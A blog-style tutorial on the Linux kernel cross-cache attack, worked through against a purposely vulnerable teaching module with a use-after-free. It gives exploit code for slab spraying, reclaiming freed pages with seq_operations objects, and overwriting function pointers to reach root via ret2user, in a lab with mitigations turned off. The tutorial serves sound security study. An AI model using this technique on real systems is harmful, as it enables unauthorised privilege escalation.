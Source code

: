 ```yaml
---
title: Linux Kernel Exploitation - Cross-Cache Attack
date: 2025-04-27
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain cross-cache attack, a fundamental technique for advanced Linux kernel exploitation. Understanding this technique is important to understand other exploitation techniques, such as Dirty PageTable and DirtyCred, which I will cover in future posts. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/cross-cache-attack) beforehand.

## Analysis
The vulnerable LKM provides three commands: `CMD_ALLOC`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, write to, and free objects defined as follows:
```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` and `obj_free` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}
```
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
The cache is created in `module_initialize`:
```c
static int __init module_initialize(void) {
    if (misc_register(&vuln_dev) != 0) {
        return -1;
    }
    obj_cachep = KMEM_CACHE(obj, 0);
    if (!obj_cachep) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. Since we already have a write primitive, it's natural to think about overlapping freed objects with some useful kernel objects, like `struct seq_operations` or `struct tty_struct`, to overwrite function pointers and control RIP. However, we cannot simply do this, since the objects are allocated from a dedicated cache. This is where cross-cache attack comes in.

## Cross-Cache Attack
The main idea of cross-cache attack is to turn a dangling reference to an object into a dangling reference to its underlying pages. As you may know, kernel objects are allocated from slab caches, which consist of one or more slabs. Each slab is made up of `2^order` pages and contains `objs_per_slab` objects. These values can be found in /sys/kernel/slab/\<CACHE_NAME\>.

When all objects in a slab are freed, underlying pages are returned to the buddy allocator if the following additional conditions are met:
- The slab is not the active slab
- The per-cpu partial slab list is full

This technique is extremely powerful. It lets us ideally overlap victim objects with any kernel object.

## Exploitation
First, we allocate `objs_per_slab * (cpu_partial + 1)` objects to prepare `cpu_partial + 1` slabs, which will later be used to fill the per-cpu partial slab list:
```c
int objs_per_slab = 8;
int cpu_partial = 52;
int num_spray = objs_per_slab * (cpu_partial + 1);

for (int i = 0; i < num_spray; i++) {
    obj_alloc(i);
}
```
Next, we allocate one object to create a new active slab:
```c
obj_alloc(num_spray);
```
Next, we free the objects in the slabs obtained in the first step to fill the per-cpu partial slab list and release the underlying order-0 pages. To increase the reliability, we only free all objects in even-numbered slabs. This is because if continuous pages are freed, the buddy allocator will merge them and treat them as higher-order pages, which makes it more difficult to reclaim them later:
```c
for (int i = 0; i < num_spray; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        for (int j = i; j < i + objs_per_slab; j++) {
            obj_free(j);
        }
    } else {
        obj_free(i);
    }
}
```
Next, we allocate a large number of `struct seq_operations` and make the order-0 pages freed in the previous step be used as the kmalloc-32 slabs. Since kmalloc-32 also uses order-0 pages, the attack has a high chance of success:
```c
int seqfds[0x20];
for (int i = 0; i < 0x20; i++) {
    seqfds[i] = open("/proc/self/stat", O_RDONLY);
    assert(seqfds[i] >= 0);
}
```
Finally, we use `CMD_WRITE` to overwrite function pointers in `struct seq_operations` and control RIP. Since SMAP, SMEP, KASLR, and KPTI are disabled, we can easily escalate privileges via ret2user:
```c
char payload[0x8];
*(unsigned long *)&payload = (unsigned long)escalate_privilege;

for (int i = 0; i < num_spray; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        obj_write(i, payload, 0x8);
    }
}

for (int i = 0; i < 0x20; i++) {
    read(seqfds[i], payload, 1);
}
```
By running this exploit, we can achive root privileges and see the flag:

![win](/assets/img/posts/2025-04-27-1/win.png)

## References
1. Awarau and pql. 2022. CVE-2022-29582. https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#crossing-the-cache-boundary
2. Imran Khan. 2022. Linux SLUB Allocator Internals and Debugging, Part 1 of 4. https://blogs.oracle.com/linux/post/linux-slub-allocator-internals-and-debugging-1
